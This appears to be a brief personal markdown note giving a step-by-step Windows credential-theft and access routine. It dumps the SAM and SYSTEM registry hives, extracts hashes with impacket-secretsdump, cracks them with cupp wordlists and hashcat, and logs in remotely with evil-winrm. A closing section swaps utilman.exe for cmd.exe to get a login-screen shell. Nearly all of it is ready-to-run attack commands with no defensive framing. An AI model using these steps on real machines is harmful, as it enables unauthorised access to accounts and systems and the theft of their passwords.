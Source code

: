 open windows cmd in admin
type reg save HKLM\\sam ./sam.save
and  reg save HKLM\\system ./system.save


copy these file to kali

## hashcat
extract the hash
impacket-secretsdump -sam sam.save -system system.save  LOCAL


## cupp
use cupp to generate list of relevant passwords
cupp -i          to open interactive interface


## save it in txt file and crack it
sudo hashcat -m 1000 haarithash haarit.txt 
sudo hashcat -m 1000 haarithash haarit.txt --show

## exploit
use evil-winrm -i ip -user username -p password 

enjoy







Open cmd from recovery

- type c:
- ren utilman.exe utilman1.exe
- ren cmd.exe utilman.exe

how to stop cmd from accessibility menu